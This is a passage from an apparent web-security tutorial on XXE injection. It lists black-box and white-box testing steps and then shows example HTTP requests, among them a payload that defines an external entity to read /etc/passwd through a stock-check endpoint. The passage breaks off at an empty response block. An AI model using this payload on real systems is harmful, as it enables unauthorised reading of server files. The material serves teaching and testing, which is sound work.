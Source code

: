### Black-Box Testing
* Map the application
    * Identify all visible instances in the application where client supplied input is parsed as XML code
    * Inject XML metacharacters, such as single quote, double quote, angle brackets, etc, to see if an error is thrown in the application that indicates if the application is using an XML parser
    * Automate testing using a WAVS
* Test identified instances with XML payloads to have the application retrieve a publicly readable file from the backend server
    * In-Band XXE Injection
    * Out-Of-Band XXE Injection
    * Error Based XXE Injection

### White-Box Testing
* Identify all instances in the application code where client supplied input is parsed as XML code
    * For those instances, identify if the XML parser disables DTDs and/or external entities
* Validate potential XXE injection vulnerabilities on a running application

---

## How To Exploit XXE Injection?

**Vulnerable Application**
* Request: 
```xml
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
<productId>
17
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
* Response:
```xml
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3
354
```
#### Retrieve Sensitive Data In Response
* Request
```xml
POST /product/stock HTTP/2
...
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM
"file:///etc/passwd">]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```
* Response
```xml
```